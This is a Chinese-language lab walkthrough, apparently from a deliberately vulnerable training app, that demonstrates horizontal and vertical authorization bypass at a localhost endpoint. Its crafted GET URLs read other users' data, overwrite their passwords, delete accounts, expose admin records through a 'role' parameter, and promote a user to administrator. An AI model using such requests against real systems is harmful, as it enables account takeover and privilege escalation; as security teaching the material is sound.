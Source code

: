 # 越权漏洞

## 水平越权

`username`参数没有做校验导致产生平行越权漏洞，可以对正常用户的用户名进行信息收集后，输入正常用户名进行攻击。

### 查看用户信息（GET）

查看用户信息接口

```
http://127.0.0.1:8000/unauthorized_access/?username=Taylor%20Velez
```

![image-20220615110331991](img/image-20220615110331991.png)

找到一个受害者的username是`Jeffrey Jones`

```
http://127.0.0.1:8000/unauthorized_access/?username=Jeffrey%20Jones
```

![image-20220615110752906](img/image-20220615110752906.png)

演示GIF：

![[video-to-gif output image]](img/ezgif-4-b94ab37b91.gif)

### 修改用户信息(GET)

正常修改用户接口操作：

```
http://127.0.0.1:8000/unauthorized_access/?username=Aaron%20Andrade&operation=edit&password=normal&phone=normal&address=normal
```

![image-20220615111337985](img/image-20220615111337985.png)

正常用户修改成功信息返回

![image-20220615111409208](img/image-20220615111409208.png)

攻击者发现漏洞，并且**修改密码、手机号、地址。**

```
http://127.0.0.1:8000/unauthorized_access/?username=Aaron%20Andrade&operation=edit&password=hacker&phone=hacker&address=hacker
```

![image-20220615111541321](img/image-20220615111541321.png)

演示GIF：

![[video-to-gif output image]](img/ezgif-4-45f9e10b39.gif)



### 删除用户(GET)

漏洞URL：

```
http://127.0.0.1:8000/unauthorized_access/?username=Candice%20Whitaker&operation=del
```

![image-20220615111831232](img/image-20220615111831232.png)

![image-20220615111850007](img/image-20220615111850007.png)

演示GIF：

![[video-to-gif output image]](img/ezgif-4-1f0d03d57b.gif)



## 垂直越权

`username`和`role`参数没有做校验导致产生平行越权漏洞，可以对正常用户的用户名进行信息收集后，输入正常用户名进行攻击。

### 未授权访问（GET）

漏洞URL接口：

```
http://127.0.0.1:8000/unauthorized_access/
```

![image-20220615112627963](img/image-20220615112627963.png)

演示GIF：

![[video-to-gif output image]](img/ezgif-4-1631325bdb.gif)

### 查看管理员信息（GET）

普通用户访问信息接口

```
http://127.0.0.1:8000/unauthorized_access/?username=Eric%20Stark
```

![image-20220615112827280](img/image-20220615112827280.png)



添加`role`参数的内容为`管理员`，即可查看到管理员信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Cassandra%20Wright&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615113025352](img/image-20220615113025352.png)

演示GIF：

![[video-to-gif output image]](img/ezgif-4-7deaa41dca.gif)



### 修改管理员信息（GET）

普通用户修改信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Eric%20Stark&operation=edit&password=normal&phone=normal&address=normal&role=%E6%99%AE%E9%80%9A%E7%94%A8%E6%88%B7
```

![image-20220615113118129](img/image-20220615113118129.png)

攻击者修改管理员信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Linda%20Rios&operation=edit&password=hacker&phone=hacker&address=hacker&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615113218961](img/image-20220615113218961.png)

修改成功

![image-20220615113317080](img/image-20220615113317080.png)

演示GIF：

![[video-to-gif output image]](img/ezgif-4-c46452d12e.gif)

### 删除管理员（GET）

漏洞URL：

```
http://127.0.0.1:8000/unauthorized_access/?username=Cassandra%20Wright&operation=del&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615113432287](img/image-20220615113432287.png)

![image-20220615113449007](img/image-20220615113449007.png)

演示GIF：

![[video-to-gif output image]](img/ezgif-4-221d98cb88.gif)



### 提升管理员（GET）

Michael James为普通用户权限

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James
```

![image-20220615114211263](img/image-20220615114211263.png)

将他提升为**管理员权限**

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James&operation=promotion&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615114302512](img/image-20220615114302512.png)

查看是否提升成功。（需要添加role参数才可以查看）

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615114517520](img/image-20220615114517520.png)

演示GIF：

![[video-to-gif output image]](https://im4.ezgif.com/tmp/ezgif-4-cc7a05fbc1.gif)